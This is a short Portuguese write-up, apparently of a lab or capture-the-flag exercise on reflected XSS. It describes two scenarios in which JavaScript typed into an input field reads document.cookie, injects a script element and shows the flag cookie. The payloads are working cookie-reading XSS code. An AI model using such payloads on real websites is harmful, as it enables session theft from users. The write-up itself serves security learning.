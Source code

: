 # XSS Vulnerability: Reflect

## Cenário 1:

Realizado à analise no código é perceptivel que o padrão utilizado se chama "script" toda vez que retorna o resultado. Sabendo que o código já está retornando "script", foi adicionado no inputText:

        function displayText() {
            document.getElementById("output").innerHTML = "<b>" + "Cookie value: " + document.cookie + "</b>";

            var script = document.createElement("script");
            script.textContent = document.cookie;
            document.body.appendChild(script);
        }

Ou seja, a linguagem entende que é um novo script e localmente aplica a função.
Ao clicar no botão "Submit" 2 vezes, ele adere a nova função.

Output gerado:
Cookie value: ftCookies=If_You_See_Me_Its_Win
  

## Cenário 2
Neste cenário o parâmetro (javascript) haverá manipulação do campo do input e reflexão para a variável do Content-type "document.cookie"

Adicionado ao input:
document.getElementById("output").innerHTML = "<b>" + document.cookie + "</b>";

Output gerado:
ftCookies=If_You_See_Me_Its_Win
